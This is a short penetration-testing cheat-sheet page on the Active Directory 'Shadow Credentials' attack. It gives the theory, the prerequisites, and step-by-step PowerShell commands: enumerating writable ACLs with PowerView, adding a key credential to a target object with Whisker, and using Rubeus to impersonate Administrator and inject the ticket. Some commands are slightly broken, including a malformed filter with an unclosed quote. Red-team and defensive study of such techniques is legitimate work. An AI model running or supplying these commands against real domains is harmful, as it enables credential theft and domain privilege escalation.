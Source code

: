 # Shadow Credentials

## Theory

User to User (U2U) Service Ticket can be requested to decrypt the encrypted **NTLM\_SUPPLEMENAL\_CREDENTIAL** entity from PAC and extract NTLM hash.

The pre-requisites to abuse it are:

* AD CS or Key Trust
* Support for PKINIT and at least one DC with windows server 2016 or above
* Permissions (GenericAll/GenericWrite) to modify msDS-KeyCredential attribute of the target

## Abuse

{% hint style="info" %}
Admin Access is not required to abuse Shadow Credentials
{% endhint %}

### Enumerate

With PowerView

{% code overflow="wrap" %}
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$.IdentityReferenceName -match "<$Controlled user>
```
{% endcode %}

### Exploit User/ComputerObject Object

Add the Shadow Credential with [wisker](https://github.com/eladshamir/Whisker)

```powershell
./Whisker.exe add /target:<$Object-target>
```

Check with PowerView if Shadow Credential is enabled

{% code overflow="wrap" %}
```powershell
Get-DomainUser -Identity <$Object target>
```
{% endcode %}

Now with the command suggested from Whisker you can obtain the ntlm by adding the option `/getcredentials`

Or get a TGS

{% code overflow="wrap" %}
```powershell
./Rubeus.exe s4u /dc<$DC> /ticket:<$Ticket> /impersonateuser:Administrator /ptt /self /altservice:<$Service>
```
{% endcode %}

